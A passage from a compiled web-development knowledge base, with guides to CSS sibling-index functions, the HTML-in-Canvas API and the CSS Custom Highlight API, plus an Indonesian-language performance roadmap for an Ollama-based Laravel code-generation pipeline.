    const input = event.target;

    if (event.type === 'reset') {
      const controls = input.elements || [];
      for (const control of controls) {
        dir

#### 🔗 Traceability:
- [Source Context](NEXUS_STYLE-PARENT-WITH-HAS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Validate Input After Interaction
> **Origin**: `ui-ux/NEXUS_VALIDATE-INPUT-AFTER-INTERACTION.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action
> **VERSION**: v1 | **Last Updated**: 26/05/2026

#### 🔗 Traceability:
- [Source Context](NEXUS_VALIDATE-INPUT-AFTER-INTERACTION.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, performance, tdd, vcs, api]

### 📘 KNOWLEDGE: NEXUS_DYNAMIC-SIBLING-STYLING.MD

# Styling siblings based on count and index
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Historically, applying unique styles to each sibling in a list required complex `:nth-child` loops or JavaScript to inject inline styles. Modern CSS provides `sibling-index()` and `sibling-count()` to perform these calculations directly in your stylesheet, enabling dynamic layouts and color systems that automatically adapt as elements are added or removed.

## Dynamic color systems

You can create a color spectrum across a group of siblings by calculating a unique hue or lightness value for each child. This ensures a consistent gradient effect regardless of the number of items.

```css
.swatch {
  /* Calculate hue by dividing the full 360deg circle by total siblings */
  /* and multiplying by the current element's 1-based index */
  background-color: hsl(
    calc(360deg / sibling-count() * sibling-index()),
    70%,
    50%
  );
}
```

## Symmetrical layout and fan effects

To create symmetrical effects (like a "fan" or centering items), use the total count to find the midpoint of the list.

```css
.card {
  /* Find the center index (e.g., 3 if there are 5 siblings) */
  --center: calc((sibling-count() + 1) / 2);

  /* Rotate items away from the center: negative for left, positive for right */
  /* center element gets 0deg rotation */
  transform: rotate(calc(10deg * (sibling-index() - var(--center))));
}
```

## Circular and complex positioning

By combining these functions with CSS trigonometry (`sin()`, `cos()`), you can place elements in a perfect circle without any manual coordinates.

```css
.orb {
  /* Calculate the angle for this item's position on a 360deg circle */
  --angle: calc(360deg / sibling-count() * sibling-index());
  --radius: 150px;

  /* Set the pre-transformed position for all items to be centered */
  position: absolute;
  place-self: center;


  /* Position each element around the parent center */
  transform: translate(
    calc(cos(var(--angle)) * var(--radius)),
    calc(sin(var(--angle)) * var(--radius))
  );
}
```

### Fallback strategies

sibling-count() and sibling-index() has limited availability.
Supported by: Chrome 138 (Jun 2025), Edge 138 (Jun 2025), and Safari 26.2 (Dec 2025).
Unsupported in: Firefox.

If `sibling-index()` and `sibling-count()` are not supported, provide a fallback by injecting CSS custom properties via JavaScript. **MANDATORY:** Use feature detection with `CSS.supports()` to ensure the script only runs when necessary.

```js
/* MANDATORY: Check for native support before applying fallback */
if (!CSS.supports('top: calc(sibling-index() * 1px)')) {
  const items = document.querySelectorAll('.item');
  items.forEach((item, index) => {
    /* MANDATORY: Injected index must be 1-based to match native function */
    item.style.setProperty('--sibling-index', index + 1);
    item.style.setProperty('--sibling-count', items.length);
  });
}
```

In your CSS, use these variables as a base and override them with native functions inside an `@supports` block. **MANDATORY:** You MUST wrap the native function overrides in `@supports` to ensure the variables remain valid in older browsers.

```css
.item {
  /* 1. Set base values using variables (from JS fallback) */
  --index: var(--sibling-index);
  --count: var(--sibling-count);

  /* 2. Use the computed variables - replace this with your implementation-specific styles */
  background-color: hsl(calc(360deg / var(--count) * var(--index)), 70%, 50%);
}

@supports (top: calc(sibling-index() * 1px)) {
  .item {
    /* 3. Override with native functions ONLY if supported */
    --index: sibling-index();
    --count: sibling-count();
  }
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux]

### 📘 KNOWLEDGE: NEXUS_EXPOSE-CANVAS-CONTENT-TO-BROWSER-FEATURES.MD

# Expose canvas content to browser features
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Regular `<canvas>` content is not exposed to browser features such as screen readers, indexing, translation tools, accessibility assistive tools, find-in-page, print, etc. With `HTML in canvas`, you can render real DOM directly in a canvas element. Adding the `layoutsubtree` attribute to a `<canvas>` HTML element allows rendering descendant HTML elements within the canvas's rendering context. You can use it to style and lay out text in a canvas, expose canvas content to browser features (like accessibility, translation, or find-in-page), and apply 2D and 3D effects to HTML.

## How to implement

1. Check if HTML-in-Canvas is supported in the browser:

```
if ('requestPaint' in HTMLCanvasElement.prototype) {
  // Use HTML in Canvas API
} else {
  // Use fallback strategy
}
```

2. Add the `layoutsubtree` attribute to the `<canvas>` HTML element.
3. Place your HTML content inside the `<canvas>` element with the `layoutsubtree` attribute.

```html
<canvas id="canvas" layoutsubtree>
  <div id="html-content"></div>
</canvas>
```

4. Scale your canvas grid to match the device scale factor to prevent blurriness:

```js
const observer = new ResizeObserver(([entry]) => {
  const dpc = entry.devicePixelContentBoxSize;
  canvas.width = dpc
    ? dpc[0].inlineSize
    : Math.round(entry.contentRect.width * window.devicePixelRatio);
  canvas.height = dpc
    ? dpc[0].blockSize
    : Math.round(entry.contentRect.height * window.devicePixelRatio);
});

const supportsDevicePixelContentBox =
  typeof ResizeObserverEntry !== "undefined" &&
  "devicePixelContentBoxSize" in ResizeObserverEntry.prototype;
const options = supportsDevicePixelContentBox
  ? { box: "device-pixel-content-box" }
  : {};
observer.observe(canvas, options);
```

5. Render the HTML content to the canvas inside a `canvas.onpaint` event handler:

- In 2D context, use the `drawElementImage` method:

```js
canvas.onpaint = () => {
  ctx.reset();
  // Draw the form element at x:0, y:0
  let transform = ctx.drawElementImage(form_element, 0, 0);
};
```

- In WebGL context, use the `texElementImage2D` method:

```js
canvas.onpaint = () => {
  if (gl.texElementImage2D) {
    gl.texElementImage2D(
      gl.TEXTURE_2D,
      0,
      gl.RGBA,
      gl.RGBA,
      gl.UNSIGNED_BYTE,
      uiElement,
    );
  }
};
```

- In WebGPU context, use the `copyElementImageToTexture` method:

```js
canvas.onpaint = () => {
  root.device.queue.copyElementImageToTexture(valueElement, 512, 128, {
    texture: targetTexture,
  });
};
```

When using a `requestAnimationFrame` loop to render the scene, call `canvas.requestPaint()` within the loop to ensure that the HTML content is rendered to the canvas. Make sure you only re-render the canvas if there has been an update to the descendant HTML elements:

```js
function render() {
  // Request to update the canvas
  canvas.requestPaint();
  requestAnimationFrame(render);
}
requestAnimationFrame(render);

canvas.onpaint = (event) => {
  if (event.changedElements && event.changedElements.length > 0) {
    // Update the texture with drawElementImage, texElementImage2D, or copyElementImageToTexture, and update the CSS transform as shown in step 6
  }
};
```

6. Update the CSS transform.

- For the 2D context case, apply the transform returned by the rendering call to the `style.transform` property:

```js
canvas.onpaint = () => {
  ctx.reset();
  // Draw the form element at x:0, y:0
  let transform = ctx.drawElementImage(form_element, 0, 0);

  // Sync the DOM location with the drawn location
  form_element.style.transform = transform.toString();
};
```

- For the 3D case with WebGL or WebGPU, the browser needs to map from the 3D coordinate space into the CSS coordinate space using a viewport transform. To facilitate this, do the following:
  - Convert WebGL MVP Matrix to DOM Matrix.
  - Normalize the HTML element. HTML elements are sized in pixels (for example, 200px wide). WebGL, however, usually treats objects as "unit squares", for example, ranging from 0 to 1. If you don't normalize, your 200px button will look 200 times larger.
  - Map to the canvas viewport. This step is the "re-scaling" phase: it stretches that unit-space math back out to match the actual pixel dimensions of your `<canvas>` element on the screen. It also flips the Y-axis, because in WebGL, up is positive, but in CSS, down is positive.
  - Calculate the final transform. Multiply the matrices in order: Viewport _ MVP _ Normalization. Combining them into one final transform produces a "map" that tells the browser exactly where that HTML element layer should sit to align with the 3D drawing.
  - Apply the transform to the HTML element. This moves the HTML element layer to sit directly on top of its rendered pixels. This ensures that when a user clicks a button or selects text, they are actually hitting the real HTML element.

  ```js
  if (canvas.getElementTransform) {
    // 1. Convert WebGL MVP Matrix to DOM Matrix
    const mvpDOM = new DOMMatrix(Array.from(htmlElementMVP));

    // 2. Normalize the HTML element (Canvas Grid pixels -> WebGL Model Space)
    const dprX = canvas.width / canvas.clientWidth;
    const dprY = canvas.height / canvas.clientHeight;
    const gridWidth = targetHTMLElement.offsetWidth * dprX;
    const gridHeight = targetHTMLElement.offsetHeight * dprY;

    const toGLModel = new DOMMatrix()
      // Scale pixels to 1 unit, flip Y (as in CSS it points down, and in WebGL it points up)
      .scale(1 / gridWidth, -1 / gridHeight, 1 / gridHeight)
      // Center the origin: (0,0) becomes (-width/2, -height/2) before scaling
      .translate(-gridWidth / 2, -gridHeight / 2);

    // 3. Map to the canvas viewport
    const clipToCanvasViewport = new DOMMatrix()
      // Move center (0,0) to center of canvas
      .translate(canvas.width / 2, canvas.height / 2)
      // Scale normalized clip (-1..1) to viewport size
      .scale(canvas.width / 2, -canvas.height / 2, canvas.height / 2);

    // 4. Multiply: (Clip -> Pixels) * (MVP) * (pixels -> unit square)
    const screenSpaceTransform = clipToCanvasViewport
      .multiply(mvpDOM)
      .multiply(toGLModel);

    // 5. Apply to the transform
    const computedTransform = canvas.getElementTransform(
      targetHTMLElement,
      screenSpaceTransform,
    );
    targetHTMLElement.style.transform = computedTransform.toString();
  }
  ```

7. [Troubleshooting] If the developer is experiencing a mismatch in the DOM logical layout in 3D even after applying the CSS transform from step 5, check if the developer is experiencing the issue in Chromium 148 or earlier. If that's the case, check if `transform.is2D` is correctly set to false for a 3D DOMMatrix. If not, re-initialize the DOMMatrix which corrects `is2D` to be false before applying the transform to the target HTML element. This issue is fixed in Chromium 149+, and if the developer is experiencing it in newer Chromium versions, the is2D value is not the cause:

```js
if (transform.is2D) {
  // Workaround for Chromium bug https://crbug.com/512171941
  // affecting Chrome versions under 149 where `transform.is2D`
  // is incorrectly true for a 3D DOMMatrix. The assignment
  // below re-initializes the DOMMatrix which corrects is2D to be false.
  transform = DOMMatrix.fromFloat64Array(transform.toFloat64Array());
}
targetHTMLElement.style.transform = computedTransform.toString();
```

## Example code

### 2D Canvas

```html
<canvas id="canvas" layoutsubtree style="width: 400px; height: 200px;">
  <div id="ui-element">
    <p>
      This text is rendered inside the canvas but is present in the DOM tree.
    </p>
    <input type="email" name="email" placeholder="enter your email" />
    <button type="button">Submit</button>
  </div>
</canvas>

<script>
  const canvas = document.getElementById("canvas");
  const ctx = canvas.getContext("2d");
  const uiElement = document.getElementById("ui-element");

  canvas.onpaint = () => {
    ctx.reset();
    // Draw the HTML element at x:0, y:0
    const transform = ctx.drawElementImage(uiElement, 0, 0);

    // Sync the DOM location with the drawn location
    uiElement.style.transform = transform.toString();
  };

  // Handle resizing to match device pixels
  const observer = new ResizeObserver(([entry]) => {
    const dpc = entry.devicePixelContentBoxSize;
    canvas.width = dpc
      ? dpc[0].inlineSize
      : Math.round(entry.contentRect.width * window.devicePixelRatio);
    canvas.height = dpc
      ? dpc[0].blockSize
      : Math.round(entry.contentRect.height * window.devicePixelRatio);
    canvas.requestPaint();
  });

  const supportsDevicePixelContentBox =
    typeof ResizeObserverEntry !== "undefined" &&
    "devicePixelContentBoxSize" in ResizeObserverEntry.prototype;
  const options = supportsDevicePixelContentBox
    ? { box: "device-pixel-content-box" }
    : {};
  observer.observe(canvas, options);
</script>
```

### WebGL Canvas

```html
<canvas id="canvas" layoutsubtree style="width: 400px; height: 400px;">
  <div id="ui-element">
    <p>WebGL UI Element</p>
    <button>Action</button>
  </div>
</canvas>

<script>
  const canvas = document.getElementById("canvas");
  const gl = canvas.getContext("webgl");
  const uiElement = document.getElementById("ui-element");

  // Setup WebGL texture...
  const texture = gl.createTexture();
  gl.bindTexture(gl.TEXTURE_2D, texture);

  canvas.onpaint = () => {
    // 1. Update texture with HTML content
    if (gl.texElementImage2D) {
      gl.texElementImage2D(
        gl.TEXTURE_2D,
        0,
        gl.RGBA,
        gl.RGBA,
        gl.UNSIGNED_BYTE,
        uiElement,
      );
    }

    // ... Render your 3D scene here, calculating htmlElementMVP matrix ...

    // 2. Sync DOM position with 3D scene
    if (canvas.getElementTransform) {
      const mvpDOM = new DOMMatrix(Array.from(htmlElementMVP));

      // Recalculate the DPR compensation mapping
      const dprX = canvas.width / canvas.clientWidth;
      const dprY = canvas.height / canvas.clientHeight;
      const gridWidth = uiElement.offsetWidth * dprX;
      const gridHeight = uiElement.offsetHeight * dprY;

      const cssToUnitSpace = new DOMMatrix()
        .scale(1 / gridWidth, -1 / gridHeight, 1 / gridHeight)
        .translate(-gridWidth / 2, -gridHeight / 2);

      const clipToCanvasViewport = new DOMMatrix()
        .translate(canvas.width / 2, canvas.height / 2)
        .scale(canvas.width / 2, -canvas.height / 2, canvas.height / 2);

      const screenSpaceTransform = clipToCanvasViewport
        .multiply(mvpDOM)
        .multiply(cssToUnitSpace);

      const computedTransform = canvas.getElementTransform(
        uiElement,
        screenSpaceTransform,
      );
      uiElement.style.transform = computedTransform.toString();
    }
  };
</script>
```

### WebGPU Canvas

```html
<canvas id="canvas" layoutsubtree style="width: 400px; height: 400px;">
  <div id="ui-element">
    <p>WebGPU UI Element</p>
  </div>
</canvas>

<script>
  const canvas = document.getElementById("canvas");
  const context = canvas.getContext("webgpu");
  const uiElement = document.getElementById("ui-element");

  // Setup WebGPU...
  // const device = ...
  // const targetTexture = ...

  canvas.onpaint = () => {
    // 1. Copy HTML content to texture
    if (device.queue.copyElementImageToTexture) {
      device.queue.copyElementImageToTexture(uiElement, width, height, {
        texture: targetTexture,
      });
    }

    // 2. Sync DOM position (same matrix math as WebGL)
    if (canvas.getElementTransform) {
      const mvpDOM = new DOMMatrix(Array.from(htmlElementMVP));

      // Recalculate the DPR compensation mapping
      const dprX = canvas.width / canvas.clientWidth;
      const dprY = canvas.height / canvas.clientHeight;
      const gridWidth = uiElement.offsetWidth * dprX;
      const gridHeight = uiElement.offsetHeight * dprY;

      const cssToUnitSpace = new DOMMatrix()
        .scale(1 / gridWidth, -1 / gridHeight, 1 / gridHeight) // Retain Z scale
        .translate(-gridWidth / 2, -gridHeight / 2);

      const clipToCanvasViewport = new DOMMatrix()
        .translate(canvas.width / 2, canvas.height / 2)
        .scale(canvas.width / 2, -canvas.height / 2, canvas.height / 2); // Retain Z scale

      const screenSpaceTransform = clipToCanvasViewport
        .multiply(mvpDOM)
        .multiply(cssToUnitSpace);

      const computedTransform = canvas.getElementTransform(
        uiElement,
        screenSpaceTransform,
      );
      uiElement.style.transform = computedTransform.toString();
    }
  };
</script>
```

## Best Practices

- **MANDATORY**: Check browser support for the HTML-in-Canvas API before using it.
- **MANDATORY**: Always add the `layoutsubtree` attribute to the `<canvas>` element.
- **MANDATORY**: Use an `onpaint` event handler to render the HTML content to the canvas.
- **MANDATORY**: Use the `drawElementImage`, `texElementImage2D`, or `copyElementImageToTexture` methods to render the HTML content to the canvas.
- **MANDATORY**: Update the CSS transform of the HTML element to match the transform of the rendered content by setting the `style.transform` property of the HTML element.
- **MANDATORY**: Use `ResizeObserver` to observe the screen size and update the canvas size to match device pixels.
- **DO NOT** embed cross-origin content in a canvas, as it is not supported.
- **DO NOT** initialize `ResizeObserver` within the `onpaint` event handler, as it may lead to memory leaks.

## Fallback strategies

HTML in canvas is not natively supported by any major browser yet.

The HTML-in-Canvas API is not currently supported in all modern browsers, thus a fallback strategy is typically required.

However, given the improved performance benefits of this API, HTML-in-Canvas should be used if the browser supports it.

The fallback strategy depends on the use case. For example, for an interactive HTML content in canvas, if HTML-in-Canvas is not supported, place the HTML content on top of the canvas using CSS.

### HTML-in-Canvas polyfills

Use the following polyfill script to mimic the HTML-in-Canvas API in browsers that do not support it.

1. Install or embed the library:

```
# Install
npm install three-html-render
```

```
# Embed
<script src="https://cdn.jsdelivr.net/npm/three-html-render/dist/polyfill.js"></script>
```

2. Run the `installHtmlInCanvasPolyfill()` method to translate HTML-in-Canvas.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, performance, tdd, api]

### 📘 KNOWLEDGE: NEXUS_EXTREME_PERFORMANCE_ROADMAP.MD

# 🔬 NEXUS Pipeline — Extreme Performance Scan & Optimization Roadmap
> **VERSION**: v1 | **Last Updated**: 26/05/2026


**Auditor**: AI Engineering (Extreme Scan Mode)
**Tanggal**: 2026-05-19
**Baseline**: Section 1 (10 proyek) = ~8422 detik (~2 jam 20 menit)
**Target**: Section 1 (10 proyek) < 30 menit (~80% reduksi)

---

## 📊 Dekomposisi Waktu Per Proyek (Estimasi)

Setiap proyek melewati pipeline berikut secara **sekuensial**:

| Fase | File Sumber | Estimasi Waktu | Bottleneck? |
|------|-------------|----------------|-------------|
| Template Copy (`fs.copy`) | `phase1_testing.js:62` | ~5-10 detik | ⚠️ Sedang |
| DB Migrate (awal) | `phase1_testing.js:101` | ~3-5 detik | ✅ Cepat |
| Blueprint Generation (Ollama) | `NexusEngine.js:395` | ~30-60 detik | 🔴 **BERAT** |
| Audit Phase (6 spesialis + scanner) | `AuditPhase.js:76` | ~20-40 detik | 🔴 **BERAT** |
| Planning Phase | `PlanningPhase.js` | ~10-20 detik | ⚠️ Sedang |
| **Implementation Phase (14x Ollama calls)** | `ImplementationPhase.js:8-63` | **~5-8 menit** | 🔴🔴 **KRITIS** |
| `composer install` | `ImplementationPhase.js:87` | ~20-30 detik | ⚠️ (cached) |
| `composer require breeze` | `ImplementationPhase.js:92` | ~15-25 detik | ⚠️ |
| `npm install` | `ImplementationPhase.js:105` | ~15-30 detik | ⚠️ (cached) |
| `npm run build` | `ImplementationPhase.js:108` | ~10-20 detik | ⚠️ |
| `php artisan migrate` | `ImplementationPhase.js:102` | ~3-5 detik | ✅ Cepat |
| Clean Code & Legacy Cleanup | `ExecutionPhase.js:102` | ~5-10 detik | ✅ Cepat |
| **5-Cycle Stability Loop** | `ExecutionPhase.js:201-245` | **~3-5 menit** | 🔴🔴 **KRITIS** |
| Self-Healing (jika gagal, 3x retry) | `ExecutionPhase.js:388-466` | ~1-3 menit | 🔴 **BERAT** |
| Post-Generation Audit (ulang) | `phase1_testing.js:170-182` | ~20-40 detik | ⚠️ Sedang |
| Knowledge Harvest | `phase1_testing.js:119-120` | ~5-10 detik | ✅ Cepat |
| **TOTAL per proyek** | | **~12-15 menit** | |
| **TOTAL 10 proyek (sekuensial)** | | **~120-150 menit** | |

---

## 🔴 TOP 3 BOTTLENECK KRITIS

### 1. Implementation Phase — 14x Ollama Sequential Calls (~5-8 menit/proyek)

**Lokasi**: `ImplementationPhase.js` baris 19-58

**Masalah**: Setiap proyek membutuhkan ~14 panggilan Ollama secara **sekuensial**:
- 2x Model generation (2 model × ~30 detik = ~60 detik)
- 2x Policy generation (~60 detik)
- 2x API Controller generation (~60 detik)
- 2x Migration generation (~60 detik)
- 2x Factory generation (~40 detik)
- 2x Seeder generation (~40 detik)
- 2x Livewire Component (PHP + Blade = 4 calls) (~120 detik)
- 1x Routes generation (~30 detik)
- 1x API Routes generation (~30 detik)
- 1x Layout generation (~30 detik)

**Total**: ~14 panggilan × ~30 detik rata-rata = **~7 menit murni Ollama inference**.

**Recode yang diperlukan**:

```
┌─────────────────────────────────────────────────────────┐
│  RECODE R-01: Template Code Cache (Eliminasi ~70%)      │
│  File: ImplementationPhase.js                           │
│  Prioritas: ★★★★★ (KRITIS)                             │
│  Estimasi Penghematan: 5-6 menit per proyek             │
└─────────────────────────────────────────────────────────┘
```

**Solusi**: Buat **Code Template Cache** per tipe komponen.
- Panggil Ollama SEKALI untuk menghasilkan template generik per tipe (Model, Policy, Controller, dll.) pada awal Section.
- Simpan hasilnya di `memory/cache/code_templates/`.
- Untuk proyek selanjutnya, gunakan **string interpolation** (replace nama model, tabel, field) daripada memanggil Ollama lagi.
- Ollama hanya dipanggil ulang jika cache miss atau blueprint sangat berbeda dari template.

```javascript
// SEBELUM (14 panggilan Ollama per proyek):
for (const model of models) {
    await this.generateModel(model, blueprint);     // Ollama call
    await this.generatePolicy(model, blueprint);    // Ollama call
    await this.generateApiController(model, blueprint); // Ollama call
}

// SESUDAH (0 Ollama calls jika cache hit):
for (const model of models) {
    await this.generateFromCache('model', model, blueprint);
    await this.generateFromCache('policy', model, blueprint);
    await this.generateFromCache('controller', model, blueprint);
}
```

---

### 2. Stability Loop — 5 Iterasi × 2 Service Startup (~3-5 menit/proyek)

**Lokasi**: `ExecutionPhase.js` baris 201-245

**Masalah**: Setiap iterasi:
1. Mencari port kosong (2x `net.createServer`)
2. `php artisan serve` — cold start ~3-5 detik
3. `npm run dev` (Vite) — cold start ~5-10 detik
4. Polling HTTP hingga 200/404 (timeout 30 detik masing-masing)
5. Kill proses (`taskkill`)
6. `setTimeout(1000)` delay antar iterasi

**5 iterasi × ~40 detik = ~200 detik = ~3.3 menit**

Dan jika ada kegagalan → Self-Healing (3 attempt × Ollama call + retry loop), bisa menambah 3 menit lagi.

```
┌─────────────────────────────────────────────────────────┐
│  RECODE R-02: Smart Stability Check (Eliminasi ~60%)    │
│  File: ExecutionPhase.js                                │
│  Prioritas: ★★★★☆ (TINGGI)                             │
│  Estimasi Penghematan: 2-3 menit per proyek             │
└─────────────────────────────────────────────────────────┘
```

**Solusi**:
- **Kurangi iterasi dari 5 ke 2** (health check + 1 confirmation).
- **Ganti `npm run dev`** (Vite cold start) dengan validasi statis: cek apakah `vite.config.js` valid dan `node_modules/.vite` ada.
- **Kurangi `waitForService` timeout** dari 30 detik ke 10 detik.
- **Skip stability loop** jika `php artisan route:list` sudah lolos DAN tidak ada error di `laravel.log`.

```javascript
// SESUDAH:
const smokeOk = await this.artisanSmokeTest(projectPath);
const logClean = await this.checkLaravelLog(projectPath);
if (smokeOk && logClean) {
    this.log(`   🎉 Fast-track: Smoke + Log clean. Skipping full stability loop.`, 'success');
    return;
}
// Hanya jalankan 2 iterasi jika smoke test gagal
```

---

### 3. Duplikasi Bootstrapping — composer/npm install berulang (~1-2 menit/proyek)

**Lokasi**: `ImplementationPhase.js` baris 84-113

**Masalah**: Meskipun template sudah punya `vendor/` dan `node_modules/`, pipeline tetap menjalankan:
- `composer install` (~20-30 detik)
- `composer require laravel/breeze --dev` (~15-25 detik)
- `npm install` (~15-30 detik)
- `npm run build` (~10-20 detik)

Total: ~60-105 detik per proyek yang **seharusnya bisa di-skip** jika dependensi sudah ada.

```
┌─────────────────────────────────────────────────────────┐
│  RECODE R-03: Conditional Bootstrapping                 │
│  File: ImplementationPhase.js                           │
│  Prioritas: ★★★★☆ (TINGGI)                             │
│  Estimasi Penghematan: 1-2 menit per proyek             │
└─────────────────────────────────────────────────────────┘
```

**Solusi**:
```javascript
async bootstrapApplication() {
    const root = this.engine.rootPath;
    const hasVendor = await fs.pathExists(path.join(root, 'vendor', 'autoload.php'));
    const hasNodeModules = await fs.pathExists(path.join(root, 'node_modules', '.package-lock.json'));
    const hasBreeze = await fs.pathExists(path.join(root, 'vendor', 'laravel', 'breeze'));

    if (!hasVendor) await this._run('composer', ['install', '--no-interaction'], root);
    if (!hasBreeze) {
        await this._run('composer', ['require', 'laravel/breeze', '--dev', '--no-interaction'], root);
        await this._run('php', ['artisan', 'breeze:install', 'livewire', '--no-interaction'], root);
    }
    if (!hasNodeModules) await this._run('npm', ['install'], root);
    // npm run build hanya jika tidak ada manifest
    if (!await fs.pathExists(path.join(root, 'public', 'build', 'manifest.json'))) {
        await this._run('npm', ['run', 'build'], root);
    }
}
```

---

## ⚠️ OPTIMASI LEVEL MENENGAH

### R-04: Post-Generation Audit Duplikasi

**Lokasi**: `phase1_testing.js` baris 168-183

**Masalah**: Setelah seluruh 10 proyek selesai, pipeline menjalankan audit **kedua kali** untuk semua proyek yang berhasil. Audit ini identik dengan audit yang sudah dijalankan di `runCycle()`.

**Solusi**: Hapus loop audit kedua, atau jadikan opsional via flag `--post-audit`.
**Penghematan**: ~3-6 menit total (10 proyek × 20-40 detik).

---

### R-05: Blueprint Generation Caching

**Lokasi**: `NexusEngine.js` baris 359-445

**Masalah**: Blueprint di-generate ulang via Ollama untuk setiap proyek, meskipun README.md hanya berisi nama proyek dan tags yang bisa di-derive secara deterministik.

**Solusi**: Buat lookup table `blueprintRegistry` yang memetakan `project-name + tags` → blueprint JSON. Ollama hanya dipanggil jika kombinasi belum pernah dilihat.

**Penghematan**: ~30-60 detik per proyek (setelah proyek pertama).

---

### R-06: NexusEngine Constructor Overhead

**Lokasi**: `NexusEngine.js` baris 60-137, `phase1_testing.js:112,175`

**Masalah**: `new NexusEngine()` diinstansiasi **per proyek** (1x di `setupTALLProject`, 1x lagi di post-audit loop). Setiap instansiasi melakukan:
- Redis connect
- Ollama availability check
- 15+ class instantiation (Modifier, SchemaGuard, QueryOptimizer, dll.)

**Solusi**: Gunakan satu instance NexusEngine yang di-reconfigure via `engine.setRootPath(newPath)` tanpa reinstansiasi semua komponen.

**Penghematan**: ~5-10 detik per proyek (overhead kecil tapi terakumulasi).

---

## 📈 Proyeksi Penghematan Total

| Recode | Per Proyek | 10 Proyek | Prioritas |
|--------|-----------|-----------|-----------|
| **R-01** Code Template Cache | -5 menit | **-50 menit** | ★★★★★ |
| **R-02** Smart Stability | -2.5 menit | **-25 menit** | ★★★★☆ |
| **R-03** Conditional Bootstrap | -1.5 menit | **-15 menit** | ★★★★☆ |
| R-04 Skip Post-Audit | -0.5 menit | **-5 menit** | ★★★☆☆ |
| R-05 Blueprint Cache | -0.5 menit | **-5 menit** | ★★★☆☆ |
| R-06 Engine Singleton | -0.15 menit | **-1.5 menit** | ★★☆☆☆ |
| **TOTAL PENGHEMATAN** | **~10 menit** | **~101 menit** | |

**Baseline**: ~140 menit → **Target**: ~39 menit (**72% reduksi**)

---

## 🗺️ Roadmap Implementasi (Selaras dengan NEXUS_HYBRID_CORE_ROADMAP.md)

### Phase A — Quick Wins (Bisa langsung recode)
1. ✅ **R-03**: Conditional Bootstrapping di `ImplementationPhase.js`
2. ✅ **R-04**: Skip/opsionalkan Post-Generation Audit di `phase1_testing.js`
3. ✅ **R-02**: Kurangi stability loop ke 2 iterasi + fast-track logic di `ExecutionPhase.js`

### Phase B — Code Template Cache System (Dampak terbesar)
4. 🔨 **R-01**: Buat `agent/core/CodeTemplateCache.js`
   - Sistem cache berbasis file di `memory/cache/code_templates/`
   - Template interpolation engine (replace model name, table name, fields)
   - Fallback ke Ollama jika cache miss
5. 🔨 **R-05**: Blueprint registry lookup table

### Phase C — Engine Architecture (Selaras dengan Hybrid Roadmap)
6. 🔧 **R-06**: Refactor `NexusEngine` menjadi singleton yang re-configurable
7. 🔧 Integrasi C++ `sandbox_orchestrator.exe` untuk `fs.copy` (sebagaimana tercantum di Hybrid Roadmap §2)

---

*Document generated by AI Engineering Extreme Scan — Nexus Pipeline Optimization Initiative*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, performance, tdd]

### 📘 KNOWLEDGE: NEXUS_HIGHLIGHT-TEXT-RANGES.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

The CSS Custom Highlight API lets you style arbitrary text ranges on a page without modifying the DOM structure. This enables search-result highlighting, syntax coloring, collaborative editing cursors, or spelling and grammar error markers without wrapping text in extra elements or relying on `innerHTML` manipulation.

### Core implementation

To highlight text ranges, you must collect the target text nodes, create `Range` and `Highlight` objects, register them in the `HighlightRegistry`, and then style them with the `::highlight()` pseudo-element.

#### 1. Collect text nodes and create ranges
Use a `TreeWalker` to collect all text nodes in the target element, then create `Range` objects pointing at the character offsets you want to highlight.

```javascript
const article = document.querySelector("article");

// MANDATORY: Use TreeWalker to collect text nodes — do not manipulate innerHTML.
const treeWalker = document.createTreeWalker(article, NodeFilter.SHOW_TEXT);
const allTextNodes = [];
let currentNode = treeWalker.nextNode();
while (currentNode) {
  allTextNodes.push(currentNode);
  currentNode = treeWalker.nextNode();
}

// MANDATORY: Set range start/end on text nodes, not element nodes.
const range = new Range();
range.setStart(textNode, matchStartIndex);
range.setEnd(textNode, matchEndIndex);
```

Cache the text-node list and only rebuild it when the DOM content actually changes, since walking the tree is expensive.

#### 2. Create a Highlight from the ranges
Group one or more `Range` objects into a `Highlight`. Multiple ranges that share the same style belong in a single highlight.

```javascript
const searchHighlight = new Highlight(...matchingRanges);
```

#### 3. Register the highlight in the registry
Register each `Highlight` under a custom name using `CSS.highlights`, which is a `Map`-like `HighlightRegistry`.

```javascript
// MANDATORY: Clear previous highlights before registering new ones
// to avoid stale ranges persisting on the page.
CSS.highlights.clear();

CSS.highlights.set("search-results", searchHighlight);
```

When multiple highlights overlap, use the `priority` property to control stacking order. Higher priority highlights paint on top.

```javascript
const primary = new Highlight(...primaryRanges);
primary.priority = 1;

const secondary = new Highlight(...secondaryRanges);
secondary.priority = 0; // painted first (behind primary)

CSS.highlights.set("primary", primary);
CSS.highlights.set("secondary", secondary);
```

#### 4. Style with `::highlight()`
Use the `::highlight()` pseudo-element in CSS to style each registered highlight by name.

```css
::highlight(search-results) {
  background-color: #ffdd00;
  color: black;
}
```

Only a limited set of CSS properties work inside `::highlight()`: `color`, `background-color`, `text-decoration` and its longhands, `text-shadow`, `-webkit-text-stroke-color`, `-webkit-text-fill-color`, and `-webkit-text-stroke-width`. Properties like `background-image`, `font-size`, or `padding` are ignored.

### Accessibility

**AVOID**: using custom highlights as a replacement for semantic HTML.

Custom highlights are purely presentational and are not exposed to the accessibility tree. If the highlighted text is semantically relevant to the document (e.g., a user-selected passage), use `<mark>` instead. Reserve custom highlights for transient, visual-only effects like search results or syntax coloring.

Highlights should not rely solely on color to convey meaning. If a highlight indicates an error, pair it with another visual indicator such as `text-decoration: wavy underline` or an adjacent text label. Ensure sufficient contrast between the highlight background and text color to meet WCAG 2.1 requirements (at least 4.5:1 for normal text).

### Fallback strategies

Baseline status for Custom highlights: Newly available. It's been Baseline since 2026-03-24.
Supported by: Chrome 105 (Sep 2022), Edge 105 (Sep 2022), Firefox 149 (Mar 2026), and Safari 17.2 (Dec 2023).

For browsers that do not support the CSS Custom Highlight API, you should provide a functional base experience where text is still legible, even without the visual highlight.

